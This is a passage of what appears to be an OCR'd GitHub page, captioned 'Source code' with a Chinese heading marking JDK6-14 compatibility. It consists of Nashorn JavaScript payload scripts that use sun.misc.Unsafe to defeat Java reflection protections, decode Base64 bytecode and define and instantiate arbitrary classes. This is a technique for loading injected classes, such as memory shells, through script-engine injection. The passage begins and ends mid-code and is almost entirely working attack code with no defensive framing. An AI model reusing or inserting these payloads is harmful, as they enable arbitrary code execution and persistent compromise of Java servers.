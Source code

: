 ```
    var clz = java.lang.Class.forName("java.lang.Class").getResourceAsStream("Class.class").readAllBytes();
    var ClassAnonymousClass = unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), clz, null);
    var reflectionDataField = ClassAnonymousClass.getDeclaredField("reflectionData");
    unsafe.putObject(java.lang.Class.forName("java.lang.Class"), unsafe.objectFieldOffset(reflectionDataField), null);
}

function Base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.util.Base64.getDecoder().decode(str);
    }
    return bt;
}

function defineClass(classBytes) {
    try {
        unsafe.defineClass(null, classBytes, 0, classBytes.length, null, null).newInstance();
    } catch (e) {
        bypass()
        var defineClassMethod = java.lang.Class.forName("java.lang.ClassLoader").getDeclaredMethod(
            "defineClass",
            java.lang.Class.forName("[B"),
            java.lang.Integer.TYPE,
            java.lang.Integer.TYPE
        );
        var modifiers = defineClassMethod.getClass().getDeclaredField("modifiers");
        unsafe.putShort(defineClassMethod, unsafe.objectFieldOffset(modifiers), 0x00000001);
        var cc = defineClassMethod.invoke(
            java.lang.Thread.currentThread().getContextClassLoader(),
            classBytes,
            0,
            classBytes.length
        );
        cc.newInstance();
    }
}
defineClass(Base64DecodeToByte(code));

```

### defineAnonymousClass.js

适用范围：JDK6-14

```
function Base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.util.Base64.getDecoder().decode(str);
    }
    return bt;
}

function defineClass(classBytes) {
    var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    theUnsafe.setAccessible(true);
    unsafe = theUnsafe.get(null);
```